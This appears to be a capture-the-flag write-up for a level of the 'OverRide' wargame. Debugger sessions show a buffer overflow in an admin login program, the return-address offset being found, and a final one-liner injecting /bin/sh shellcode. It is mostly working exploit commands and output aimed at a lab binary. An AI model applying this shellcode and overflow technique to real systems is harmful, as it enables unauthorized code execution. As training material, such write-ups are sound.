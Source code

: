 </pre>
$> gdb ./level01 
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'B' * 500)")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x42424242 ('BBBB')
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7f9d000 --> 0x1e4d6c 
EDI: 0x42424242 ('BBBB')
EBP: 0x42424242 ('BBBB')
ESP: 0xffffd5b0 ('B' <repeats 15 times>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd5b0 ('B' <repeats 15 times>)
0004| 0xffffd5b4 ('B' <repeats 11 times>)
0008| 0xffffd5b8 ("BBBBBBB")
0012| 0xffffd5bc --> 0x424242 ('BBB')
0016| 0xffffd5c0 --> 0xffffd5f4 --> 0x23f25da8 
0020| 0xffffd5c4 --> 0xf7ffdb40 --> 0xf7ffdae0 --> 0xf7fca3e0 --> 0xf7ffd980 --> 0x0 
0024| 0xffffd5c8 --> 0xf7fca410 --> 0x80482a3 ("GLIBC_2.0")
0028| 0xffffd5cc --> 0xf7f9d000 --> 0x1e4d6c 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
</pre>
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
Starting program: /home/alarm/42/Override/level01/Ressources/level01 < <(python -c "print('dat_wil' + 'A' * 100)"; python -c "print('admin' + 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL')")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x65414149 ('IAAe')
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7f9d000 --> 0x1e4d6c 
EDI: 0x41344141 ('AA4A')
EBP: 0x41414a41 ('AJAA')
ESP: 0xffffd5a0 ("AAKAAgAA6AAL\n")
EIP: 0x35414166 ('fAA5')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x35414166
[------------------------------------stack-------------------------------------]
0000| 0xffffd5a0 ("AAKAAgAA6AAL\n")
0004| 0xffffd5a4 ("AgAA6AAL\n")
0008| 0xffffd5a8 ("6AAL\n")
0012| 0xffffd5ac --> 0xffff000a --> 0x0 
0016| 0xffffd5b0 --> 0xffffd5e4 ("S??AC\201O\004")
0020| 0xffffd5b4 --> 0xf7ffdb40 --> 0xf7ffdae0 --> 0xf7fca3e0 --> 0xf7ffd980 --> 0x0 
0024| 0xffffd5b8 --> 0xf7fca410 --> 0x80482a3 ("GLIBC_2.0")
0028| 0xffffd5bc --> 0xf7f9d000 --> 0x1e4d6c 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x35414166 in ?? ()
gdb-peda$ pattern offset fAA5
fAA5 found at offset: 84

```
level01@OverRide:~$ (python -c "print('dat_wil0' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * 100)"; python -c "print('admin' + 'B' * 75 + '\x48\xa0\x04\x08')"; cat) | ./level01 
```

